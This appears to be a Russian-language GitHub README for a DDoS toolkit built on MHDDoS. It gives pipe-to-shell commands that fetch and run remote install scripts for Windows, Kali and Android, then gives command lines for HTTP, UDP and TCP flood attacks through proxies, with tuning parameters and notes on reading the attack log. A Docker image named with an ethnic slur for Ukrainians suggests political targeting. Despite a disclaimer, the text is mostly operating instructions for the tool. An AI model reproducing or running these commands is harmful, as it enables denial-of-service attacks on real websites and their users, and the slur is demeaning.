 ﻿# :red_circle: scripts 

                                  ❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗
                                  ❗❗❗❗❗❗❗❗❗ДИСКЛЕЙМЕР❗❗❗❗❗❗❗❗❗❗❗❗❗❗
                                  ❗Данный софт предоставлен в ознакомительных целях. ❗❗❗❗❗❗
                                  ❗Автор не несёт ни какой ответственности за выполняемый код. ❗❗
                                  ❗Все действия вы производите на свой страх и риск. ❗❗❗❗❗❗
                                  ❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗


### :large_orange_diamond: Для установки на Windows:
1) Запустите cmd от администратора
2) Выполните команду  curl -s https://raw.githubusercontent.com/mr-kritik/scripts/main/install.bat | cmd

### :large_orange_diamond: Для установки на Kali Linux :
1) Открываем консоль
2) sudo su
3) wget -O - https://raw.githubusercontent.com/mr-kritik/scripts/main/start_install_linux.sh | sh

### :large_orange_diamond: Для установки на Android :
1) Устанавливаем termux (его можно скачать на play market) обычное приложение  
	:black_square_button:a) 4Pda - https://4pda.to/forum/index.php?s=&showtopic=741456&view=findpost&p=49100873  
	:black_square_button:b) Play Market - https://play.google.com/store/apps/details?id=com.termux&hl=ru&gl=US  
	:black_square_button:c) Альтернатива - https://f-droid.org/packages/com.termux/  
2) Запускаем Termux
3) Пишем в консоль pkg upgrade  
	a) Если у вас выпадает ошибка и не идёт обновление вам необходимо ввести команду termux-change-repo  
	b) В данном окне выбираем откуда скачивать обновления, везде по разному мне подошла строка которая содержит bfsu.edu.cn  
5) pkg install wget
6) wget -O - https://raw.githubusercontent.com/mr-kritik/scripts/main/android_install.sh | sh


Дождитесь полной установки!
На Windows будет установлен Docker, Python v.3, Git + сам софт для атаки.
На Linux будет установлено wget, Python v.3, git, Docer + сам софт для атаки.

На windows создастся папка C:\VZ
На Linux в вашей домашней папке создастся папка VZ
На Android в вашей домашней папке создастся папка android_soft

# ЗАПУСК СОФТА :alien:
# 1. Более лояльный, менее агрессивный. :no_entry:
##### :pushpin: WINDOWS: 
Запускаем cmd от администратора, переходим в папку cd C:\VZ
##### :pushpin: LINUX : 
Запускаем консоль пишем sudo su, переходим в папку cd $HOME/VZ  
##### :pushpin: Android : 
Переходим в папку cd android_soft и запускаем программу python main.py

##### :pushpin: WIN LINUX : 
python3 runner.py <Цель> --http-methods <Метод> -t <Угрозы> --rpc <Подключения> -p <Обновление> --debug



	Где :
		a) Цель – Это ссылка в формате https://example.com
		b) Метод (--http-methods) – Один из методов MHDDoS (CFB, DGB, BYPASS, GET  и т.д., подробнее о методах будет ниже).
		c) Угрозы (-t) – Количество запросов/пакетов на цель (1 ядро = 1000).
		d) Подключения(--rpc) – Количество запросов, отправляемых на 1 прокси-сервер, после чего прокси-сервер транслирует эти запросы на цель.
		f) Обновление (-p) – Период времени в секундах, через который ваше соединение с прокси-серверами будет обновляться (прокси-серверы имеют свойства падать, сбрасывать соединение и т.д.). По умолчанию 900 секунд / 15 минут.
		g) --debug – Нужен для того, чтобы мы видели лог атаки (информация по выводу будет ниже). 


## :recycle: Методы Атаки:

:heavy_check_mark: Атака на Layer 7 (HTTP(S) по URL) 
```
python3 runner.py https://example.com https://example1.com -t 1000 --debug
```
:heavy_check_mark: Атака на Layer 7 (HTTP по IP + PORT)
```
python3 runner.py 192.168.2.1:443 192.168.1.1:80 -t 1000 --debug
```

:heavy_check_mark: Атака на Layer 4 (по UDP адресам)
:warning::warning::warning:ВНИМАНИЕ НУЖНО ВПН ПОДКЛЮЧЕНИЕ:warning::warning::warning:
```
python3 runner.py udp://192.168.2.10:53 -t 1000 --debug
```
:heavy_check_mark: Комбинированная атака
```
python3 runner.py tcp://192.168.2.10:53 https://example1.com 
```



## :recycle: Вывод из атаки :
- PPS - количество установленных соединений с целью атаки
- BPS - вес пакетов в байтах, килобайтах, мегабайтах. Оптимально в районе 500 Кб. Может быть и меньше, а может быть гораздо больше. Главное не = 0
- % - когда произойдёт смена прокси в %


# 2. Более агресивный через Docker. :no_entry:

docker run -it --rm ghcr.io/mr-kritik/ddos_ukropi:latest <Цель> --http-methods <Метод> -t <Угрозы> --rpc <Подключения> -p <Обновление> --debug

расшифровку можете взять выше






